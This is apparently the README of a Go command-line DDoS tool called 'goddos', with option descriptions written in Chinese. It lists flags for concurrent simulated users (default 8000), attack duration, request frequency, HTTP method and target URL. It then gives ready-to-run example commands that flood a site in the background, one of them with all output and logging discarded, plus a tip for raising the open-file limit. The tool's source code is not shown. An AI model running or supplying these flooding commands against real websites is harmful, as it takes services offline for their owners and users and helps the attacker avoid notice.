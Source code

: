 # Help
```bash
./goddos -h
```

```bash
Usage of ./goddos:
  -cc int
        并发用户数量 (default 8000)
  -dm int
        DDos攻击持续时间（分钟） (default 20)
  -ims int
        每个用户执行DDos攻击的频率（毫秒） (default 1000)
  -m string
        DDos攻击目标URL请求方式(GET/POST/...) (default "GET")
  -u string
        DDos攻击的目标URL (default "https://www.yoursite.com")
```


# Example
```bash
./goddos -cc 1000 -u https://www.yoursite.com

// 后台运行
nohup ./goddos -cc 1000 -u https://www.yoursite.com &

// 后台运行，不写日志
nohup ./goddos -cc 8000 -u https://www.yoursite.com >/dev/null 2>&1
```



- open many files:
```bash
sudo ulimit -n 8192
```
@see https://www.jb51.net/LINUXjishu/228022.html
